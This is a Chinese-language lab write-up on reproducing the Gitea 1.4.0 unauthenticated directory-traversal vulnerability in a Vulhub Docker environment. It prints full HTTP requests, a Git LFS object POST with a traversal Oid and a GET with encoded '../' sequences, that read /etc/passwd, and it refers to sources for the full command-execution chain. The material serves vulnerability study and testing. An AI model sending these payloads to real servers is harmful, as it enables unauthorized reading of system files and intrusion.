




# Gitea 1.4.0 目录穿越导致命令执行漏洞

## Vulnhub官方复现教程

https://vulhub.org/#/environments/gitea/1.4-rce/

## 漏洞原理

其1.4.0版本中有一处逻辑错误，导致未授权用户可以穿越目录，读写任意文件，最终导致执行任意命令。

## 参考链接：

https://security.szurek.pl/gitea-1-4-0-unauthenticated-rce.html

https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html

## 复现漏洞

启动环境

https://blog.csdn.net/JiangBuLiu/article/details/93853056

进入路径为

```shell
cd /root/vulhub/gitea/1.4-rce
```

搭建及运行漏洞环境：

```shell
docker-compose build && docker-compose up -d
```

用时：2分钟

环境启动后，访问http://you-ip:3000，将进入安装页面，填写管理员账号密码，并修改网站URL，其他的用默认配置安装即可。（不要修改端口号）

第二次打开已经是安装好的了


安装完成后，新建一个用户，然后创建一个公开的仓库，随便添加点文件进去（比如使用选定的文件和模板初始化仓库）：





此时需要执行一次docker-compose restart重启gitea服务。（原因详见第二个参考链接）

## 漏洞复现

### 设置浏览器的代理端口为3000



### Burp

设置端口拦截



由于漏洞链整体利用比较复杂，我们只复现文件读取部分，剩余利用方法详见第二个参考链接。

打开gitea，找到刚才创建的公开项目，如vulhub/repo或者JiangBuLiu/JiangBuLiu发送如下数据包，添加一个Git LFS对象：

```html
POST /JiangBuLiu/JiangBuLiu.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": "....../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

然后，访问

```html
http://your-ip:3000/JiangBuLiu/JiangBuLiu.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth
```

```html
GET /JiangBuLiu/JiangBuLiu.git/info/lfs/objects/......%2F..%2F..%2Fetc%2Fpasswd/sth HTTP/1.1
Host: 192.168.236.138:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
```

即可看到/etc/passwd已被成功读取：


